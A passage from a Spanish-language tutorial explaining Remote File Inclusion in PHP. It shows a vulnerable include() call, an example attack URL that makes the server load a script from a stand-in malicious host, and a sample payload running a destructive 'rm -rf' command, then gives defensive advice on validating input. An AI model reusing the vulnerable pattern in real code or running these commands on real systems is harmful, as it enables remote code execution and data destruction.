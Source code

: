 ```php
include ($viewName);
```

Imagina también que este código se invoque normalmente mediante una petición del estilo: https://sitio-confiable.com?view=main.php. O algo parecido. Es una estrategia habitual en muchas aplicaciones web.

Pues bien, un atacante podría pedir la siguiente URL: https://sitio-confiable.com?view=https://sitio-malicioso/soy-un-script-malvado.php

Es decir, ha colocado como *$viewName* la URL de un programa PHP externo a nuestro servidor, y nuestro programa hará un *include()* de ese código tan feliz y contento, sin saber que se trata de código malicioso que acabará directamente en las tripas de nuestro programa. 

Una vez que *soy-un-script-malvado.php* se esté ejecutando en el servidor *sitio-confiable.com*, puede hacer cosas terribles, como, por ejemplo, esta:

```php
<?php
  system("rm -rf");
?>
```

(No te digo lo que hace ese comando por si se te ocurre probarlo, pero ya te adelanto que no es agradable).

Para prevenir los ataques por RFI, algunas estrategias válidas son:

* **No confiar en los datos** que no provengan de nuestro sistema.
* **Validar y filtrar los datos** que introduce el usuario (sí, otra vez: validar, validar y validar cualquier cosa que provenga del usuario).
